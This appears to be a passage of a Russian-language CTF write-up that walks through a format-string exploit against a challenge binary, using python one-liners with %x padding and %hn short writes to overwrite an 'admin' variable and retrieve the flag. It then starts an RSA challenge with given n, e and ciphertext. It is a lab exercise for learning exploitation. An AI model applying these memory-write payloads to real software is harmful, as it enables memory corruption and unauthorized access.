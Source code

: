 `c`!!! Мы записали в admin число `0x63`! Теперь самое странное. Как же нам записать в `admin` число `0xb4dbabe3`? Этож пипец как много подавать на вход программе придётся, подумал я. А нет, нифига. Можно подать спецификатор типа `%123x`. В этом случае сколько бы не вывел обычный `%x`, спецификатор дополнит вывод до длины 123. Т.е. всю грязную работу повесим на бинарь, поняли план? `0xb4dbabe3 = 3034295267`.

```
python -c 'print "\x2c\xc0\x04\x08." + "%x."*10 + "%3034295267x" + "%n"' | ./chall
```

Запускаем и оставляем ноут на пару дней, потому что бинарь будет выводить все эти дополняющие пробелы на экран...? Вы готовы увидеть пробелов больше, чем `MAX_INT`? Я нет. Поэтому я в это время пошел искать способ уменьшить количество времени. И нашел. Что, если мы запишем не 4-байтовое число, а два числа по 2 байта? Звучит как неплохая идея. На этот случай есть спецификатор `%hn`, позволяющий писать в память короткие двух-байтовые слова. Штош, затестим. Сначала пишем младшую `0xabe3 = 44003`, а потом пишем старшую `0xb4db = 46299` (только для записи нужно вычесть из числа `44003`, так как второй `%hn` считает всю длину до своего появления). Попробуем? Надо не забыть - в этот раз добавляем два адреса - `admin` для младшей и `admin+2` для старшей части `0xb4dbabe3`.

```
python -c 'print "\x2c\xc0\x04\x08\x2e\xc0\x04\x08" + "%x."*11 + "%44003x" + "%12$hn" + "%2296x" + "%13$hn"' | ./chall
<многапробелов>
You cannot login as admin.
```

Штош токое! Почему? А, мы забыли отнять `0x66` из `44003`. Почему `0x66`, было жеж `0x63`!!! - скажете вы, если еще со мной. А потому что мы напечатали еще второй адрес, а там целых два печатных символа + я точку проебал при копировании => потеряли 3 байта => длина нашего начального мусора изменилась. Прибавить надо. Отнимем и получим `43901`. Итак, ПЛИ!

```
python -c 'print "\x2c\xc0\x04\x08\x2e\xc0\x04\x08" + "%x."*11 + "%43901x" + "%12$hn" + "%2296x" + "%13$hn"' | ./chall
<многапробелов>
csictf{n0_5tr1ng5_@tt@ch3d}
```
**Флаг**: `csictf{n0_5tr1ng5_@tt@ch3d}`

**BINARY IS DEAD. PRESS F TO PAY RESPECT.**

# 3. Rivest Shamir Adleman
```
These 3 guys encrypted my flag, but they didn't tell me how to decrypt it.

File: enc.txt
```

`enc.txt` content:
```
n = 408579146706567976063586763758203051093687666875502812646277701560732347095463873824829467529879836457478436098685606552992513164224712398195503564207485938278827523972139196070431397049700119503436522251010430918143933255323117421712000644324381094600257291929523792609421325002527067471808992410166917641057703562860663026873111322556414272297111644069436801401012920448661637616392792337964865050210799542881102709109912849797010633838067759525247734892916438373776477679080154595973530904808231
e = 65537
c = 226582271940094442087193050781730854272200420106419489092394544365159707306164351084355362938310978502945875712496307487367548451311593283589317511213656234433015906518135430048027246548193062845961541375898496150123721180020417232872212026782286711541777491477220762823620612241593367070405349675337889270277102235298455763273194540359004938828819546420083966793260159983751717798236019327334525608143172073795095665271013295322241504491351162010517033995871502259721412160906176911277416194406909
```
